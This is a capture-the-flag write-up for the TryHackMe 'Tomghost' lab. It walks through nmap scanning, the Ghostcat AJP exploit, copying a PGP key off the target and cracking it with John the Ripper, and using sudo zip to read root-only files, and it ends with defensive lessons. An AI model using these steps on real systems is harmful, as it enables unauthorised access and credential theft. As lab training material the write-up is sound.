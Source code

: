 # Tomghost

- **Challenge Link:**
  [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
- **Author:** [stuxnet](https://tryhackme.com/p/stuxnet)
- **Difficulty Level:** Easy

## Enumeration

To begin, scan the target IP address with nmap to determine open ports and
services:

```
$ nmap -sV <machine IP>
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see the following services running:

- **Port 22**: SSH for secure remote login
- **Port 8009**: Apache Jserv allows Apache to talk to Tomcat (more on this
  later)
- **Port 8080:** Apache Tomcat for running enterprise Java applications. 

## Apache Jserv 

I was not familiar with Apache Jserv, so I Googled it. Essentially, it is a
service that allows Apache to host static content like usual, and then proxies
Tomcat related content to the Tomcat service. 

The service is running on the expected port 8009, however it is not normally
open to the world. 

## Ghostcat

After some more Googling, I found an excellent post on
[pen testing the Apache Jserv
protocol](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp)
from hacktricks.xyz.

Since port 8009 is expose, the server is susceptible to a restricted LFI
vulnerability called "Ghostcat". We can read files like
`WEB-INF/web.xml`
which can leak important information like credentials for the Tomcat interface,
depending on the server setup

Here is a Python implementation of the
[exploit](https://www.exploit-db.com/exploits/48143).

Run it to leak the credentials to the SSH server.

```
$ python ghostcat.py <machine IP>
```

## Initial Access

Use the leaked credentials to log into the SSH server. From there, the user.txt
flag can be found at /home/merlin/user.txt:

```
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
REDACTED-FLAG
```

Perform a directory listing on the skyfuck user's home directory:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

credential.pgp likely contains credentials for an admin user, but it is encoded
with PGP and cannot be read yet. 

tryhackme.asc is a private PGP private key that can be used to decrypt the
credential.pgp file!

To start, let's load in the private key to memory:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
```

And now decrypt the credential file:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

Darn! The file is passphrase protected! Time to crack it.

## Cracking PGP

There are probably several ways to do this, but the most immediate idea I had
was to download the file to my local Kali box and use John The Ripper (JTR).

1. On the target, start a Python web server

```
skyfuck@ubuntu:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
```

2. On the local machine, download the tryhackme.asc file

```
$ wget http://<machine IP>:8000/tryhackme.asc
```

3. Translate the .asc file into a format that JTR can understand

```
$ pgp2john tryhackme.asc > forjohn
```

4. Crack that passphrase!

```
$ john forjohn --wordlist=/usr/share/wordlists/rockyou.txt
```

Back on the target, use the cracked passphrase to access the credential.pgp
file.

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp --output credential.txt
skyfuck@ubuntu:~$ cat credential.txt
merlin:REDACTE-PASSWORD
```

Nice! We have the password for the merlin user! 

## Privilege Escalation

Switch to the other user and see what privileges they have on the system.

```
skyfuck@ubuntu:~$ su merlin
Password: 
                                                                              
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:                                                                                                                       
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Interesting, we can run /usr/bin/zip with no password as the root user. 

Make a zip file and extract it to read the root.txt flag file.

```
merlin@ubuntu:~$ sudo /usr/bin/zip ./flag.zip /root/root.txt
 adding: root/root.txt (stored 0%)

merlin@ubuntu:~$ unzip flag.zip
Archive:  flag.zip  
 extracting: root/root.txt

merlin@ubuntu:~$ cat root/root.txt
REDACTED-FLAG
```

## Lessons Learned
1. Apache Jserv on port 8009 should not be publicly accessible! [DiabloHorn has
a good post on
this](https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/)
2. Credentials should never be hardcoded into a website's source code!
